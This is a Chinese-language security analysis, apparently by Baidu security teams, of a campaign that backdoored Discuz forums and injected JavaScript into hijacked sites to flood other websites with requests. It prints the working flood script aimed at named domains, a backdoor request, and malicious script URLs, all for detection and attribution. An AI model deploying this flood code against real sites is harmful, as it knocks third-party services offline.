 # 从异常挖掘到CC攻击地下黑客团伙

Author: 百度云安全天网团队 百度安全攻防实验室 百度云安全云端防护团队

0x00 异常挖掘与回溯
============

* * *

11月13日，百度云安全天网系统，通过数十TB的日志挖掘，发现了安全宝某重点客户网站上的异常行为。之后我们的分析人员跟进，发现这是一起针对安全宝某重点客户的持续攻击。最终在客户系统上放置了Web后门。

该Web后门的通信如下：

```
POST /uc_server/data/logs/20140708.php?v=1a HTTP/1.1
Host: bbs.xxxxx.com
Referer: http://bbs.xxxxx.com/uc_server/data/logs/20140708.php?v=1a
User-Agent: Sogou
Content-Length: 60

```

从通信流量上看，并未触发任何报警。同时，客户的日志里也并未保存http response的数据。

天网系统中的谛听模块通过对网站的访问行为进行建模，通过每个被防护的网站日志训练出这个网站特有的访问模型。包括网站参数的模型，网站访问路径的模型，网站访问session的模型。黑客这次的访问行为触发了网站访问路径模型的异常。该模型中通过每个路径访问的频度广度和路径之间的访问关系等feature，训练出针对每个网站特定的路径视图。

我们在系统中对该客户的所有历史日志进行了回溯，发现该黑客在9月24日就已经对该客户展开了尝试性的攻击。

通过进一步的分析，我们发现，该攻击者修改了Discuz系统的class_core.php。在该class_core.php中添加的代码如下：

![](http://drops.javaweb.org/uploads/images/862ab7e09be0d545994e12dde3f3967623d1116e.jpg)

从该代码中，我们可以做出以下结论：

1.  这次攻击不是小范围的针对单个站点的攻击，而是攻击了多个站点
2.  该代码中并未指定特定的CC攻击的目标，而是通过Location统一跳转到[http://file.lbgoo.com/file_120/37/ver.php](http://file.lbgoo.com/file_120/37/ver.php)，由该url指定最终的攻击目标。

0x01 影响确认和攻击代码
==============

* * *

我们从CC的攻击代码中提取了以下特征fuwuqibeiheikeruqin，在现有的网页情报库中搜索，发现以下的链接地址：

[http://www.eoeandroid.com/forum.php?wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan](http://www.eoeandroid.com/forum.php?wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan)

判断eoeandroid也被这样攻击过。

11月20日，[http://file.lbgoo.com/file_120/37/ver.php](http://file.lbgoo.com/file_120/37/ver.php)请求被重定向到[http://www.eoeandroid.com/forum.php?](http://www.eoeandroid.com/forum.php?)，11月20日发现eoeandroid已经503了。该攻击手法被进一步确认。

我们又对该代码中提及到的`php100.com`,`www.dm123.cn`和`12edu.com`进行访问。发现如下：

以dm123.cn为例：

![](http://drops.javaweb.org/uploads/images/78e31803c621fae9f026369569528f7b1a76a172.jpg)

显然该网站被利用来做CC攻击。

同时我们针对以上网站挂CC攻击的js进行了分析，发现有三种:

1.  dm123.cn中，直接在dm123网站上挂js，脚本路径如下:  
    [http://www.dm123.cn/gd.js](http://www.dm123.cn/gd.js)
2.  php100.com中，托管在SAE上的攻击脚本，脚本路径如下:  
    [http://jsddos.sinaapp.com/ddos.js](http://jsddos.sinaapp.com/ddos.js)
3.  12edu.com中，通过api接口动态获得要攻击的网站，更加难以定位:  
    [http://www.12edu.com/api.php?op=count&id=34380&modelid=1](http://www.12edu.com/api.php?op=count&id=34380&modelid=1)

以上三种方式，从扫描器检测的角度来看，复杂度逐渐增大。第一种情况下，是直接检测本域下的js。第二种则需要检测外链js，检测量大大增大了。而第三种则是在已有的js里面没有攻击代码。攻击的代码是通过api接口动态获得的。

**攻击用的js代码如下：**

```
function imgflyygffgdsddfgd() {
var TARGET = 'www.hanyouwang.com'
var URI = '/index.php?wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan&'
var pic = new Image()
var rand = Math.floor(Math.random() * 1000)
pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflyygffgdsddfgd, 0.1)
function imgflyygffhghddfgd() {
var TARGET = 'www.weshequ.com'
var URI = '/Search/v-wangzhanbeihei&fuwuqibeiheikeruqin&qinggenghuanfuwuqi&chongzhuangwangzhan&'
var pic = new Image()
var rand = Math.floor(Math.random() * 1000)
pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflyygffhghddfgd, 0.1)

```

**被攻击域名**包括重要政府网站和国家级新闻媒体

0x02 身份确认
=========

* * *

通过域名的相似度，我们在现有的网页情报库中发现了如下域名：

*   博客：[http://jsddos.blog.163.com/](http://jsddos.blog.163.com/)
*   论坛：[http://www.jsddos.com/](http://www.jsddos.com/)

在163博客上可以看到，该团队名 ddos Js团队，QQ 1551227222

在网页情报库中查找该QQ，可以发现[http://www.mspycn.com/about.html](http://www.mspycn.com/about.html)

看来除了卖ddos的服务，还在卖手机监听软件的服务

对该域名的whois进行查询，如下：

![](http://drops.javaweb.org/uploads/images/2fcd1c01144a05c0d525d441ed744f79144b6112.jpg)

从我们发现该攻击到发稿前，该黑客做了如下的事情:

1.  修改了[http://file.lbgoo.com/file_120/37/ver.php](http://file.lbgoo.com/file_120/37/ver.php)的指向
2.  Php100.com已经不再受影响

0x03 后续
=======

* * *

我们有理由相信，这是一个在不断进化的地下黑客团体。通过更加隐蔽的手法进行CC攻击挂马。该问题的影响范围目前我们还在进一步确认。欢迎业内同仁继续跟进分析。

如果你想查看自己的网站是否受影响，有两个步骤：

1.  打开网站，随机访问几个页面，查看下面是否会发起连续的对其他网站的请求
2.  查看是否会发起请求：[http://file.lbgoo.com/file_120/37/ver.php](http://file.lbgoo.com/file_120/37/ver.php)

我们从该攻击中提取了以下信息作为攻击情报或者IOC：

[http://file.lbgoo.com/file_120/37/ver.php](http://file.lbgoo.com/file_120/37/ver.php)